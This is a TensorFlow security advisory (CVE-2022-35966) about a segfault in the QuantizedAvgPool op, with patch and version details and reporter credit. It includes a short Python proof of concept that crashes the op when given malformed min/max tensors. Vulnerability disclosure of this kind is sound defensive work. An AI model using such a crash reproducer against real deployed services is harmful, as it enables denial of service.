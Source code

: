 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-098.md
## TFSA-2022-098: Segfault in `QuantizedAvgPool`

### CVE Number
CVE-2022-35966

### Impact
If `QuantizedAvgPool` is given `min_input` or `max_input` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

ksize = [1, 2, 2, 1]
strides = [1, 2, 2, 1]
padding = "SAME"
input = tf.constant(1, shape=[1,4,4,2], dtype=tf.quint8)
min_input = tf.constant([], shape=[0], dtype=tf.float32)
max_input = tf.constant(0, shape=[1], dtype=tf.float32)
tf.raw_ops.QuantizedAvgPool(input=input, min_input=min_input, max_input=max_input, ksize=ksize, strides=strides, padding=padding)
```

### Patches
We have patched the issue in GitHub commit [7cdf9d4d2083b739ec81cfdace546b0c99f50622](https://github.com/tensorflow/tensorflow/commit/7cdf9d4d2083b739ec81cfdace546b0c99f50622).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
